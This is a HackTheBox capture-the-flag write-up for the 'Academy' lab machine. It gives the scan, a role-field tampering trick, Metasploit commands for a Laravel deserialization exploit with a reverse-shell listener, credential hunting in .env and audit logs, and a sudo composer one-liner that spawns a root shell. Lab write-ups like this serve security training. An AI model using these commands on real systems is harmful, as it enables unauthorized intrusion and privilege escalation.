 ## Academy [HackTheBox]
> Mayank Srivastava | 10 Jan 2021 11:57 PM

A Simple WriteUp for HackTheBox machine.
```
Mahine Name : Academy
OS          : Linux
Difficulty  : Easy (But i rated as Medium)
IP Address  : 10.10.10.215
```

## Port Scanning

As usual running nmap against the webserver and found some open ports

```
# Nmap 7.91 scan initiated Sun Jan 10 22:50:59 2021 as: nmap -sC -sV -oN nmap/initial 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 10 22:52:09 2021 -- 1 IP address (1 host up) scanned in 70.47 seconds
```

Add ``` academy.htb ``` to ``` /etc/hosts ```


## Web Reconnaissance

So Let’s first enumerate port 80. start a gobuster scan and got something useful.

found three intersting php pages.

```
index.php
register.php
admin.php
```
First get register on the platform. After getting register page automatically
redirect to ```login.php```, nothing intersting found on the login.php
but checking in the source code of the web page ``` register.php ```
found a ```hidden html input element``` which is set to ```roleid=0```.
intercepting with burpsuite changed ```roleid=1``` and again redirect to ```login.php ```
But at this time repeated the same process but instead of going to ```login.php```
decided to open ```admin.php``` and login with registered credentials and got
a Foothold. After login with credentials seen a new sub-domain on the page.
so added to ```dev-staging-01.academy.htb --> /etc/hosts```.

Looking around the pages i think this Laravel framework  and with the page
information like APP_NAME="Laravel" and APP_KEY="**********" got confirmation
that Laravel framework.

Searching in the ```exploitdb``` and found the version of Laravel is vulnerable
to ```object deserialization and command execution``` and also find a metasploit
module ``` exploit(unix/http/laravel_token_unserialize_exec) ```.

## Steps to exploit
```
msfconsole
use exploits/unix/http/laravel_token_unserialize_exec
set RHOST <rhost>
set RPORT <rport>
set APP_KEY <base64_string>
set VHOSTS <add sub-domain.academy.htb>
set LHOST <your_local_htb_address>
set LPORT 4444
exploit
```

## Horizontal Privilege Escalation

Listing the Home directory we can see lots of users. There are two mentions
users ```cry0l1t3``` and ```mr3bn```. we have to escalate our privilege
horizontally to user ```cry0l1t3```. Search for Laravel import files like ```.env```
All the environment variables are declared in the ```.env``` file which includes
the parameters required for initializing the configuration, so we have advantage
to get the password of user and fortunately we got one. we can cat ```user.txt```
located in ```/home```.

user ```cry0l1t3``` is not sudoers lists but we have another user ```mr3bn```
let's find ``` mr3bn``` user password, after searching the files and seen the
user is in the ```adm```, move to ```/var/log/audit``` and search for the mr3bn
credentials, and found credentials in hex format decrypt it and switch user ```mr3bn```

## Vertical Privilege Escalation

…and check what sudo privilege ```mr3bn``` has

the user ```mr3bn``` run ```(ALL) /usr/bin/composer``` composer have SUID bit
permission we can following command as user to get root shell.
```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```
Now we have ROOT shell. grab the root.txt submit on HackTheBox.

